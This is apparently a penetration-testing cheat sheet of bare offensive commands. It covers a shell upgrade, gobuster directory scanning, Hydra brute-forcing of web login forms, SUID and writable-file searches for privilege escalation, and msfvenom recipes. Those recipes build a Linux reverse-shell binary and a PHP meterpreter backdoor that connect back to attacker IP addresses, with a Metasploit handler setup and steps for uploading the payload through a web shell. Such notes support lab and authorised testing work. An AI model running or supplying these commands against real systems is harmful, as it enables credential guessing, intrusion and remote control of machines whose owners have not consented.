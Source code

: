 `Upgrade terminal`
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
___
`Gobuster`
```
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://ip -t 100 -q -o gobust.txt
```
___
`Hydra` `To Find Username OR Password for login pages` 
```
hydra -L .dic -p test IP http-post-form "log=^USER^&pwd=^PWD^:Invalid username Or name of Error thrown" -t 30
```

___
`To find Root Processes`
```
Sudo -l
```
OR
```
find / -perm +6000 2>/dev/null | grep '/bin/'
```
___
`Find Writable files / folders`
```
find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u
```
___
`MsfVenom`
```
In Attackers pc: msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.49 LPORT=4040 -f elf > r.elf
Upload the r.elf to webshell and excuite it to get the reverse shell

OR

1. Generate backdoor

msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.0.32 LPORT=4444 -f raw -o payload.php

2. Create our payload handler

msfconsole
$ use exploit/multi/handler
$ set payload php/meterpreter/reverse_tcp
$ set LHOST 192.168.0.32
$ set LPORT 4444
$ run

3. Paste the payload.php in web shell to get the reverse shell
```



